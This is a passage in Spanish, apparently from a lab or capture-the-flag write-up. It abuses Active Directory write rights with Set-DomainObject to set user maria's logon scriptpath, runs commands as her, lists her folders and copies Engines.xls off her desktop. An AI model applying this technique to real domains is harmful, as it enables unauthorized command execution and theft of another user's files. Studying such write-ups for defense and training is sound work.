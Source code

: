 ~~~powershell 
echo "ls \users\maria > c:\tmp\out" > cmd.ps1
~~~

~~~powershell
Set-DomainObject -Identity maria -SET @{scriptpath="C:\\tmp\\cmd.ps1"}
~~~

Luego leemos el archivo out y vemos lo siguiente

~~~powershell
type out


    Directory: C:\users\maria


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---       10/22/2021   3:54 AM                3D Objects
d-r---       10/22/2021   3:54 AM                Contacts
d-r---       10/25/2021   3:47 AM                Desktop
d-r---       10/25/2021  10:07 PM                Documents
d-r---       10/22/2021   3:54 AM                Downloads
d-r---       10/22/2021   3:54 AM                Favorites
d-r---       10/22/2021   3:54 AM                Links
d-r---       10/22/2021   3:54 AM                Music
d-r---       10/22/2021   3:54 AM                PictuObject
d-r---       10/22/2021   3:54 AM                Saved Games
d-r---       10/22/2021   3:54 AM                Searches
d-r---       10/22/2021   3:54 AM                Videos
~~~

Notamos que el directorio Documents ha sifo modificado recientemente

~~~powershell
echo "ls \users\maria\desktop > \tmp\out " > cmd.ps1
~~~
 
 Y conseguimos el siguiente archivo
 
~~~powershell
cat out

Directory: C:\users\maria\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/26/2021   8:13 AM           6144 Engines.xls

 ~~~

Modificamos el archivo cmd.ps1:

~~~powershell
echo "copy \users\maria\desktop\Engines.xls  \tmp\ " > cmd.ps1
~~~
